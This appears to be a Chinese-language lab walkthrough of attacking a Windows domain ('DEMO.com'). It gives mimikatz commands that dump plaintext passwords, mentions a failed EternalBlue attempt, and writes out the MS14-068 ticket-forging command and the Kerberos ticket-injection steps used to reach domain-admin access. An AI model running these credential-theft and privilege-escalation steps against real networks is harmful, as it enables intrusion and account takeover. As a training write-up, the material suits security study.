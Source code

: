 ![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibx0j1RJI6XpvFbhmMA6Cx3icUekBuibdx7icKvNLuxDB0l9uewldYyhsqPQ/640?wx_fmt=png)image-20200727104410758![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxg6qHqJISSd4DD6YhhM7axJDeBgibtNllR5cQu54wlzrAo5TRlqEVabQ/640?wx_fmt=png)image-20200727104351567![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxzU8pgZJ1icqdweia3dmXuicXzzwwo4gGaFuyVXn8rOQBNnibQaZXqrTzGA/640?wx_fmt=png)image-20200727104235782![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxycx5yrkCYCFKZpg3zdQqH3sH4mISlBbHicINSbfB1QhFCxuMMAeUueg/640?wx_fmt=png)image-20200727104720174![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxPiaicNxicpCK9lxrmQjQNAiaoYibicWRBjVJTXJvScr6XUsZ2KhicOE6jhajg/640?wx_fmt=png)image-20200727104314816![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxN3hbR4iaoaUbRzvvfb5RmT3xSBvvZLqphhtyw2c2icgVB8GMJbIIV2KA/640?wx_fmt=png)image-20200727104333838

经过一波收集我们得知，目标 Windows 7 在 DEMO.com 域中，域控为 WIN-ENS2VR5TR3N$，域管理员为 Administrator，我们 ping 一下主域，查看域控的 IP：

```
ping WIN-ENS2VR5TR3N.DEMO.com
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxsH7AQXib37pA9pEIphw1TXEGTJib5ml9XpIwFPw4lZ8qbhB8G87BsnLw/640?wx_fmt=png)image-20200727102726437

可知域控 IP 为 192.168.183.130。

在目标机上传 mimikatz，抓一下 Windows 7 的密码：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxA11v3IRqLicA5mqLoicCD4lZyYtdXovqXNNvfI7qQWp8QUHwHnI71Yag/640?wx_fmt=png)image-20200727114859057

```
shellmimikatz.exeprivilege::debugsekurlsa::logonpasswords
```

此处有个坑，我用 ms17_010 获得的 system 权限在运行 mimikatz 的时候回报错：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxJRkkYVh4of9azB88cC3bfkdxebo6gNcHY8sSOIiaeFYOFTnC2OicaYXg/640?wx_fmt=png)image-20200727113418518

反复折腾了一番最后模拟了一个目标机上的 system 的令牌竟然成功了：（不可思议，有大佬知道为什么的话请告诉我）

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxib87qGiaQdpDMnjic6mibzpSmsDabIAQ2x4wesYoR3xfQaVNL8rvIX8jgw/640?wx_fmt=png)image-20200727120518887

得到 douser 用户的明文密码为 Dotest123。接下来我们就可以继续横向移动攻击域控了。

攻入域控
====

首先看看能不能用永恒之蓝攻下域控：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibx4iaKgwcsg7AVoibN6qCuBUxoyDx1iaas4Ba3FZWe7rm8icptuElqhetFew/640?wx_fmt=png)image-20200727121643085

失败了。既然我们得到了域用户 douser 的密码，我们为何不试一下 PTT（ms14-068）呢？下面演示 ms14-068 的利用过程：

在目标 Windows 7 上传 ms14-068.exe，然后执行如下生成 TGT 票据：

```
ms14-068.exe -u douser@DEMO.com -s S-1-5-21-979886063-1111900045-1414766810-1107 -d 192.168.183.130 -p Dotest123// ms14-068.exe -u 域成员名@域名.com -s 域成员sid -d 域控制器ip地址 -p 域成员密码
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxpzz2EfmrzrwviazAUWs4JA1NrU6vHyEdnvgrnquNDZOzYoibcQxGp9KA/640?wx_fmt=png)image-20200727102524532![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxV0uA1pweJcelVCGWPibbgEDuT3ibhianoicTP2T2g98EYa0QzYaXzeAvjA/640?wx_fmt=png)image-20200727130818982

如上图成功生成票据文件 “`TGT_douser@DEMO.com.ccache`”。然后利用 mimikatz 注入票据：

```
mimikatz # kerberos::purge         //清空当前机器中所有凭证，如果有域成员凭证会影响凭证伪造mimikatz # kerberos::list          //查看当前机器凭证mimikatz # kerberos::ptc <生成的票据文件>   //将票据注入到内存中
```

> **使用 mimikatz 将票据注入到当前内存中，伪造凭证，如果成功则拥有域管理权限，可任意访问域中所有机器**

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxzoZ4a6J833xUm1GTd3D8K04lkafACfJwjkQmJpMTxynC7pEpMTjbYQ/640?wx_fmt=png) image-20200727131348684
